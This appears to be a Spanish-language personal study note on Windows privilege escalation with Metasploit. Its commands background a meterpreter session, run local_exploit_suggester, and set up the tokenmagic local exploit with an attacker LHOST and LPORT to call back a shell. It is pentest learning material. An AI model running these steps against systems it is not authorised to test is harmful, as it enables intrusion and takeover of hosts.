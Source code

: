 
---

- Para poder escalar privilegios de este modo lo mas aconsejable es vulnerar el sistema con una sesión de meterpreter como aparece en [[Metasploit]]

```bash
meterpreter >
				background        # poner la sesion en 2 plano 
				search local_exploit_suggester    # Buscar el modulo de escalada de privilegios
				use 0                             # Usar el modulo 
				show options
				sessions -l                       # Buscar las sesiones que tenemos activas
				set SESSION 1                     # Seteamos la sesion que habiamos dejado en 2 plano con su ID
				run
```

- Aqui nos aparecerán muchas formas de escalar privilegios, de las cuales probaremos una a una de las que están en verdes hasta que funcionen:

![[Pasted image 20251022195026.png]]

- Haremos lo siguiente:

```bash
use exploit/windows/local/tokenmagic   # seteamos el exploit que queramos
show options 
set SESSION 1           # Seteamos el ID de la sesion que teniamos
set LHOST <IpAtacante>  # seteamos nuestra ip
set LPORT 5555          # Cambiamos el puerto a uno que no estemos usando para evitar problemas de compatibilidad
```

- Con `sessions -i <ID>` podemos volver a la sesión que ya teníamos abierta 